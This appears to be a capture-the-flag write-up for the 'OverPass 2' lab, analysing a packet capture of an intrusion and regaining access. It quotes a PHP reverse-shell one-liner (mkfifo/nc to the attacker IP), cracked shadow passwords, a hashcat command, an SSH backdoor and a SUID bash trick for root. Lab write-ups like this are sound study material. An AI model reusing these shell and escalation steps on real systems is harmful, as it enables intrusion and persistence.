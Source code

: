 # OverPass 2

## pcap analysis

- Attacker IP: `192.168.170.145`
- packet 14 POST to /development/upload.php
- Attacker uploaded the following reverse shell
```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
- Note port `4242`
- packet 167/168 auth over netcat by attacker: user: `james`, password: `whenevernoteartinstant`
- Attacker used `https://github.com/NinjaJc01/ssh-backdoor` to establish persistence

- `/etc/shadow` was dumped. There were 4 easily crackable passwords (via fasttrack.txt)
```
paradox:secuirty3:18464:0:99999:7:::
szymex:abcd123:18464:0:99999:7:::
bee:secret12:18464:0:99999:7:::
muirland:1qaz2wsx:18464:0:99999:7:::
```

- hash used by attacker: `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

- Easily bruteforced with `hashcat -m 1710 att_hash.txt /usr/share/wordlists/rockyou.txt`
- attacker password: `november16`


- backdoor still open on port 2222
- user:`james`, password:`november16`

- attacker left `/home/james/.suid_bash` for root access
- run with `/home/james/.suid_bash -p` for root shell
